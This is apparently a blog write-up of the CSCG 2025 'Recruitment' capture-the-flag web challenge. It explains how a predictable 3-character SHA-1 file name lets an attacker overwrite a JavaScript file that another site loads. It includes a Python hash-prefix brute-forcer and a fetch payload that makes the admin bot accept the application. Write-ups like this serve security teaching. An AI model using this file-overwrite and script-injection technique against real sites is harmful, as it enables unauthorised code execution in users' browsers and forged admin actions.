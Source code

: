 ```yaml
---
title: Recruitment - CSCG 2025 - Write-Up
date: 2025-04-24 10:05:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [web,js,xss,bsi,sha1]
description: Exploit a XSS vulnerability.
image:
  path: /assets/blog/Recruitment/txt.png
  alt: CSCG image
---
```


This is yet another write-up for the challenges of the CSCG 2025 and yet another XSS vulnerability. This is one for the challenge Recruitment, this challenge was created by `TobiNary (BSI)` and rated as Medium.

## Description

> Will your application be accepted?
>
> Note: Feel free to use techniques, that lead to high amounts of traffic. But please keep it reasonable and do not DoS us.

This challenge provides you with links to two web applications one on port 5000 the other on port 5004.

## Enumeration of the web app

The port 5004 provides an application page, where you can register and account and submit applications. The web app also allows you to list the applications you submitted. To submit an application you can simply press a button, the app doesn't allow you to submit anything else, it only let's you press a button to do so.

![](/assets/blog/Recruitment/port5004.png)

The listed applications are viewable in the "Show applications" tab:

![](/assets/blog/Recruitment/login.png)

The application on port 5000 provides a small web page and advertises a file uploading service which let's you upload files to the `/service` endpoint using a **put request**.

![](/assets/blog/Recruitment/port5000.png)

The files are uploaded to the `/js` folder and the file gets the name 3 character name ended by the `.js` extension, in my case `954.js`, after uploading. As the description of the file upload service said, there is some hashing algorithm in play.

**Note**: You need to be careful with the new line characters in the request with will result in totally different hashes.

![](/assets/blog/Recruitment/file.png)

To check what partial hash output is I checked a few algorithms, the final one that matched was `sha1`, the first 24 bits of this hash match the file name.

```terminal
$ xxd file    
00000000: 5448 4953 5f49 535f 415f 4649 4c45 0a    THIS_IS_A_FILE.
$ sha1sum file
954a045a86247844889eba5d87bae9962451469b  file
```

The application calculates the hash by generating the **`sha1sum`** of the file and then using these **24 first bits**.

On port 5004 I made the observation that the JS script used in the application is located on the file server.

```html
...
<link rel="stylesheet" href="/static/css.css">
	  <script defer="defer" type="application/javascript" src="https://aaf555d9f8f3158ba8654372-5000-recruitment.challenge.cscg.live:1337/js/1b6.js"></script>
...
```

## Vulnerability

The vulnerability arises because the app for the application submission uses the JavaScript file from the file server where anyone can upload files without authentication.

The file names of the files on the file upload server are generated through a predictable short partial hash, so an attacker is able to overwrite the original JavaScript file used by the application submission app. This is easy for the attacker because the he only needs to brute-force a 3 hex character file name.

This allows **Cross Site Scripting (XSS)** which compromises the application on port 5004.

The attack to achieve the XSS vulnerability is a **Supply Chain Attack**, because you are attacking the hosting service to supply a malicious file to the application submission app. So you are not directly attacking the application submission app.

## Exploit

The vulnerability allows you to craft a malicious JavaScript file. Since the app frequently monitors the applications page using a bot, the code within your JavaScript file gets automatically executed in the bot's web browsing environment.

To find the right hash prefix I build a small Python tool with ChatGPT. This tool will just change data in the file of a predefined string until it finds a hash that matches. The file gets written to `out.js`, so if something valid is found the payload can just be copied from the file.

```python
import hashlib
import itertools
import string

def replace_and_check(input_file, output_file, target_pattern):
    word_to_replace = "BRUTE"
    characters = string.ascii_uppercase

    for replacement in itertools.product(characters, repeat=len(word_to_replace)):
        new_word = ''.join(replacement)

        with open(input_file, "r") as f:
            content = f.read()

        modified_content = content.replace(word_to_replace, new_word)

        with open(output_file, "w") as f:
            f.write(modified_content)

        sha1_hash = hashlib.sha1()
        with open(output_file, "rb") as f:
            while chunk := f.read(4096):
                sha1_hash.update(chunk)

        hash_hex = sha1_hash.hexdigest()
        last_three_chars = hash_hex[:3]

        print(f"Replacing 'BRUTE' with '{new_word}' -> SHA-1: {hash_hex} | Last 3 hex: {last_three_chars}")

        if last_three_chars == target_pattern:
            print("Pattern matched! Stopping.")
            break
        else:
            print("Pattern not matched, retrying...\n")

replace_and_check("payload.js","output.js", "1b6")
```

While looking further for any possible way to get the flag I found this code on the application page (If you click on one of your applications).

```html
<section class="nes-container with-title hidden">
	<h3 class=title>Admin menu</h3>
	<div class=item>
<form action="/application/1" method="post">
	<input class="nes-btn is-success" id="accept" name=action type=submit value="Accept" />
	<input class="nes-btn is-error" id="decline" name=action type=submit value="Decline" />

</form>
	</div>
</section>
```

There is a admin menu, the form allows the admin to accept or decline the application. You could use the XSS vulnerability to use the bots browser to accept your application, which will potentially return the flag.

```js
fetch(`/application/1`, {method: 'POST',headers: {'Content-Type': 'application/x-www-form-urlencoded',},body: 'action=Accept',credentials: 'include'}).then(response => response.text()).then(data => console.log(data)).catch(error => console.error('Error:', error));
x="BRUTE"
```
**Note:** I used a one-liner, because this allows me to replace less `\n\r`'s with `\n`'s'

I used the `BRUTE` value to find some characters which will produce the hash. To find the right value I run my small Python program.

I next copied the payload with the right hash found by the script to my Burp Suite Repeater Tab. Then the final action is to fix the new lines. By default in Burp Suite, if you paste data it will transform a simle new line (`0a`) to a carriage return (`0d0a`).
![](/assets/blog/Recruitment/final.png)


If the payload overwrites the right file it should take a few seconds and the application will be accepted.

**Note:** You may not recognize the flag but its right after accepted in the brackets.

![](/assets/blog/Recruitment/accept.png)

The flag can be found below.


Flag:
```
CSCG{C0ngr4tz_0n_th3_n3w_j0b}
```
